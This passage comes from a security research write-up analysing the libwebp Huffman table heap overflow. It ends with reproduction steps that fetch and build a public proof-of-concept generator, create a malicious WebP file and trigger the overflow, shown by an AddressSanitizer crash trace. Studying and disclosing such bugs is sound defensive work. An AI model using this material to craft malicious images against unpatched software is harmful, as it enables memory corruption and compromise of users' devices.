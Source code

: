 I followed a dead-end here, which is that the "enough" tool only works for color_cache sizes up to 8-bits. How did they derive the values for 9-bit, 10-bit, or 11-bit caches, all of which are considered valid? Maybe they just guessed and these values are wrong? I think Google must have modified "enough" to work on larger alphabet sizes, because I managed to replicate their numbers by making some minor changes to "enough" (things like using the 128-bit integer scalar type compiler extension to be able to count the number of trees without overflow).

At this point there was a long process of angst. The "enough" tool is clear in its documentation that it calculates the maximum value for _valid and complete_ codes. There must be some configuration of this input histogram that produces a tree that WebP considers to be valid and complete, but is actually incomplete/invalid in a way that produces a larger expansion than anticipated. The patch even hints in this direction, saying: _"make sure that valid (but unoptimized because of unbalanced codes) streams are still decodable"_

In the end I managed to convince myself that this wasn't possible by enumerating all of the possible valid trees in the smallest of the tables (a symbol size of 40), which also happened to be the last of the 5 tables we needed to fill. The purported maximum size for a symbol size of 40 with a root table of 8-bits and a maximum code length of 15 is 410. If you can generate anything bigger than 410, then you win. But none of the codes that BuildHuffmanTable would consider valid had a size bigger than 410 (and most of them were much smaller). It seems like the consistency check at the end of BuildHuffmanTable, e.g. checking that the number of output nodes is an expected value, was ensuring that the codes it accepted were in line with"enough" and the pre-calculated buffer sizes it gave.

But the BuildHuffmanTable function is writing values to the output table using the "ReplicateValue" operation mentioned earlier. What if we built 4 valid Huffman trees that resulted in 4 maximally sized output tables, and then supplied an invalid Huffman tree for the last table? Could we get ReplicateValue to write out-of-bounds from an invalid starting key prior to the final consistency check on the node count? The answer is: yes, we can.

Here's how to replicate the bug:  

```
  # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
=================================================================
==207551==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x626000002f28 at pc 0x56196a11635a bp 0x7ffd3e5cce90 sp 0x7ffd3e5cce80
WRITE of size 1 at 0x626000002f28 thread T0
#0 0x56196a116359 in BuildHuffmanTable (/home/isosceles/source/webp/webp_test/examples/dwebp+0xb6359)
#1 0x56196a1166e7 in VP8LBuildHuffmanTable (/home/isosceles/source/webp/webp_test/examples/dwebp+0xb66e7)
#2 0x56196a0956ff in ReadHuffmanCode (/home/isosceles/source/webp/webp_test/examples/dwebp+0x356ff)
#3 0x56196a09a2b5 in DecodeImageStream (/home/isosceles/source/webp/webp_test/examples/dwebp+0x3a2b5)
#4 0x56196a09e216 in VP8LDecodeHeader (/home/isosceles/source/webp/webp_test/examples/dwebp+0x3e216)
#5 0x56196a0a011b in DecodeInto (/home/isosceles/source/webp/webp_test/examples/dwebp+0x4011b)
#6 0x56196a0a2f06 in WebPDecode (/home/isosceles/source/webp/webp_test/examples/dwebp+0x42f06)
#7 0x56196a06c026 in main (/home/isosceles/source/webp/webp_test/examples/dwebp+0xc026)
#8 0x7f7ea8a8c082 in __libc_start_main ../csu/libc-start.c:308
```